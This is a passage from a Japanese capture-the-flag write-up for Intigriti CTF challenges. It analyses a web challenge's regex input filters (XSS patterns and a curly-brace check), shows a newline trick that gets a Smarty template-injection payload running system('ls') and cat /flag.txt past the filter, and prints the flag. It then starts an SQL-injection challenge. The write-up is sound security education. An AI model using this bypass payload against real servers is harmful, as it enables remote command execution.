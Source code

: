 次の4つのパターンが含まれていないことをチェックしているようです。

1. `(\b)(on\S+)(\s*)=`: onから始まる文字列
1. `javascript`: javascript
1. `<(|\/|[^\/>][^>]+|\/[^>][^>]+)>`: タグ
1. `{+.*}+`: 中括弧で囲まれた文字列

1と2と3はXSSの対策のように見えます。  
4が曲者で、SSTIとして使える `{system('ls')}`のような単純な文字列が使えなさそうです。

- 参考: <https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#smarty-php>

何個か試していたところ、改行を挟むことで4のチェックを回避できることが分かりました。

```text
{system('ls')
}
```

後は`cat /flag.txt`を実行して完了です。

- FLAG

```text
INTIGRITI{php_4nd_1ts_many_f00tgun5}
```

### Bug Report Repo

342 points / 64 solves

SQLインジェクション+認証回避の問題でした。
サイトにアクセスすると、バグレポートの一覧が表示されます。

![bug report repo 01](./images/bugreportrepo_01.png)
